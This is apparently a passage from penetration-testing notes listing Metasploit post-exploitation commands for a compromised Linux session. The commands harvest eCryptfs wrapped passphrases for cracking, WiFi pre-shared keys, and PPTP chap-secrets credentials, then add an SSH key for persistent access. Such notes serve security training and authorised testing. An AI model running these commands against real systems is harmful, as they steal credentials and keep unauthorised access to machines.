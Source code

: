```bash
search ecryptfs_creds
use post/linux/gather/ecryptfs_creds
info
# Description:
#   This module will collect the contents of all users' .ecrypts 
#   directories on the targeted machine. Collected "wrapped-passphrase" 
#   files can be cracked with John the Ripper (JtR) to recover "mount 
#   passphrases".
sessions
set SESSION 2
run
```

![Metasploit - post/linux/gather/ecryptfs_creds](.gitbook/assets/image-20230422150125356.png)

- Enumerate **WiFi credentials**

```bash
search enum_psk
use post/linux/gather/enum_psk
info
# Description:
#   This module collects 802-11-Wireless-Security credentials such as 
#   Access-Point name and Pre-Shared-Key from your target CLIENT Linux 
#   machine using /etc/NetworkManager/system-connections/ files. The 
#   module gathers NetworkManager's plaintext "psk" information.
set SESSION 2
run
```

![Metasploit - post/linux/gather/enum_psk](.gitbook/assets/image-20230422152033281.png)

- Check for **PPTP VPN chap-secrets credentials**

```bash
search pptpd_chap_secrets
use post/linux/gather/pptpd_chap_secrets
info
# Description:
#   This module collects PPTP VPN information such as client, server, 
#   password, and IP from your target server's chap-secrets file.
set SESSION 2
run
```

![Metasploit - post/linux/gather/pptpd_chap_secrets](.gitbook/assets/image-20230422152700235.png)

- Perform **SSH Persistence**

```bash
search sshkey
use post/linux/manage/sshkey_persistence
info
# Description:
#   This module will add an SSH key to a specified user (or all), to 
#   allow remote login via SSH at any time.
set SESSION 2
run
```

